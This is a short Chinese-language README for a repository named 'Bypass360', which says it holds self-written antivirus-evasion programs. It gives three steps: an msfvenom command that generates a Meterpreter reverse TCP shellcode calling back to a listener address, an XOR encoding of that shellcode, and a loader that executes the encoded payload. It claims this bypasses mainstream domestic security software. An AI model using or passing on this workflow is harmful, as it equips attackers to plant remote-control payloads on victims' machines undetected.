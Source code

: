 # Bypass360
该仓库用于放置自己编写绕过杀软的程序
使用方法：

1.用MSF生成完整的shellcode：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.43.147 lport=4444 -f raw > beacon.bin

2.然后用XorEncode.exe加密生成的shellcode文件：XorEncode.exe beacon.bin，结果会生成一个EncodeRAWData

3.最后用ProcessTest.exe执行加密后的文件EncodeRAWData：ProcessTest.exe EncodeRAWData

绕过效果：可以绕过国内主流的安全防护软件
